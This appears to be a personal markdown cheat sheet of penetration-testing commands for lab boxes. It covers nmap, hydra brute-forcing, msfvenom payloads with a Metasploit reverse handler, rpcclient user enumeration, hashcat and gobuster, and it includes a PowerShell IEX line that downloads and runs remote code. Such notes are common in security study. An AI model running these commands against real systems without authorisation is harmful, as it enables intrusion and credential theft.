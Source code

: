 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Make nice screenshots of access
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`

### List formats
`msfvenom -l formats`

### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### User dump
In RPC client, run `enumdomusers`
### More details
In RPC client, run `querdispinfo`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`
Windows version of `cat`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse Shells
### Where can they be found?
Find most in `/opt/nishang/Shells/` on Kali

Plenty at [pentestmonkey](http://pentestmonkey.net/)

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

## Screenshots
In Kali, CTRL+SHIFT+PRINT SCREEN brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM

